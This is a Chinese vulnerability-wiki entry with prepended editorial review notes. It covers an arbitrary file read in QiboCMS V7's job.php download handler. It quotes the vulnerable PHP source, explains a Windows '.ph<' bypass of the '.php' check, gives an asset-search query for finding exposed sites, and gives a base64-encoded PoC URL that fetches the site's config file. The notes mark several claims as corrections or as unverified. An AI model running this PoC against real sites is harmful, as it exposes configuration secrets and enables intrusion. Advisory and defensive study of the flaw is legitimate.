

## 核对与使用边界

- 明确更正：`eregi(".php")` 中点未转义且无 `$`，它不是“只匹配以 .php 结尾”，而是在任意位置按该正则匹配；原解释不准确。
- 必须同时满足 DownLoad_readfile、local_download、is_file、进程读权限和 upfileType 后续规则。Windows `.ph<` 文件 API 行为要绑定 PHP/系统版本，不能套用 Linux 或所有下载模式；原载荷保留，未假称已验证。

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：legacyPHPeregi;WindowsfileAPI .ph&lt; resolution;DownLoad_readfile andlocal_downloadenabled;upfileTypeallowlistmatches

- **结论使用边界（1）**：正文称只匹配php结尾但eregi('.php')无$且点未转义，实际匹配任意位置模式，应纠正。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **适用与权限边界（2）**：源码明确DownLoad_readfile/local_download及扩展白名单门槛，文字跳过配置条件不能泛称任意文件。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **事实待核（3）**：.ph&lt; Windows行为与具体PHP/文件API版本需核，Linux不可套用。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **证据待核（4）**：仅V7无发行/补丁/原源；Base64payload清楚但响应只图，不能把下载跳转模式也当读文件。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **适用与权限边界（5）**：任意文件受is_file/权限和upfileType限制，需说明为何该配置文件能过后续正则。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# 齐博CMS V7 job.php 任意文件读取漏洞

## 漏洞描述

QiboCMS V7版本/do/job.php页面URL参数过滤不严，导致可以下载系统任意文件，获取系统敏感信息。

## 漏洞影响

```
齐博CMS V7
```

## 网络测绘

```
app="齐博软件-v7"
```

## 漏洞复现

漏洞分析 `/inc/job/download.php`

```
$url=trim(base64_decode($url));
    $fileurl=str_replace($webdb[www_url],"",$url);
    if( eregi(".php",$fileurl) && is_file(ROOT_PATH."$fileurl") ){
        die("ERR");
    }

    if(!$webdb[DownLoad_readfile]){
        $fileurl=strstr($url,"://")?$url:tempdir($fileurl);
        header("location:$fileurl");
        exit;
    }


    $webdb[upfileType] = str_replace(' ','|',$webdb[upfileType]);
    if( $webdb[local_download] && is_file(ROOT_PATH.$fileurl) && eregi("($webdb[upfileType])$",$fileurl) ){
        $filename=basename($fileurl);
        $filetype=substr(strrchr($filename,'.'),1);
        $_filename=preg_replace("/([\d]+)_(200[\d]+)_([^_]+)\.([^\.]+)/is","\\3",$filename);

        if(eregi("^([a-z0-9=]+)$",$_filename)&&!eregi("(jpg|gif|png)$",$filename)){
            $filename=urldecode(base64_decode($_filename)).".$filetype";
        }
        ob_end_clean();
        header('Last-Modified: '.gmdate('D, d M Y H:i:s',time()).' GMT');
        header('Pragma: no-cache');
        header('Content-Encoding: none');
        header('Content-Disposition: attachment; filename='.$filename);
        header('Content-type: '.$filetype);
        header('Content-Length: '.filesize(ROOT_PATH."$fileurl"));
        readfile(ROOT_PATH."$fileurl");
        exit;
    }
```

url base64解码,匹配后缀 如果是php结尾的就退出 在windows下能用xxx.ph< 绕过 然后经过一系列的正则后会下载文件。

```
if( eregi(".php",$fileurl) && is_file(ROOT_PATH."$fileurl") ){
        die("ERR");
    }
```

## 漏洞POC

```
/do/job.php?job=download&url=ZGF0YS9jb25maWcucGg8
```




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
